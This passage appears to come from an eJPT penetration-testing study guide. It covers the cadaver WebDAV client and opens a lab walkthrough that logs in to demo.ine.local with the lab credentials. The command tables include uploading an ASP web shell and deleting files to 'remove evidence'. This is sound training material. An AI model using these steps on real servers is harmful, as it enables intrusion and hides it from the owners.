 ### **📤 File Transfer Commands:**

| Command | Purpose | Usage Example | eJPT Critical |
|---------|---------|---------------|---------------|
| `put <local_file>` | Upload file to server | `put /usr/share/webshells/asp/cmd.asp` | ⭐⭐⭐⭐⭐ Critical |
| `get <remote_file>` | Download file from server | `get config.xml` | ⭐⭐⭐⭐ High |
| `mput <pattern>` | Upload multiple files | `mput *.txt` | ⭐⭐⭐ Medium |
| `mget <pattern>` | Download multiple files | `mget *.log` | ⭐⭐⭐ Medium |

### **📁 Directory Management Commands:**

| Command | Purpose | Usage Example | Usage Context |
|---------|---------|---------------|---------------|
| `mkcol <directory>` | Create directory | `mkcol uploads` | Organize uploaded content |
| `rmcol <directory>` | Remove directory | `rmcol testdir` | Clean up after testing |
| `delete <file>` | Delete file | `delete testfile.txt` | Remove evidence |

### **ℹ️ Information Commands:**

| Command | Purpose | Usage Example | Intelligence Value |
|---------|---------|---------------|-------------------|
| `propfind` | Show file properties | `propfind file.asp` | Verify upload success |
| `propnames` | List property names | `propnames` | Server capabilities |
| `head <file>` | Show file headers | `head index.html` | Content verification |

---

## 🧪 Real Lab Examples with Step-by-Step Analysis

### **Example 1: Initial WebDAV Connection and Authentication**

**📝 Lab Context:** This example demonstrates establishing a connection to the demo.ine.local WebDAV server using credentials discovered during reconnaissance.

#### **Connection Process:**
```bash
# Command executed in lab environment
cadaver http://demo.ine.local/webdav

# System prompts for authentication
Authentication required for demo.ine.local on server 'demo.ine.local':
Username: bob
Password: password_123321

# Successful connection indicator
dav:/webdav/>
```
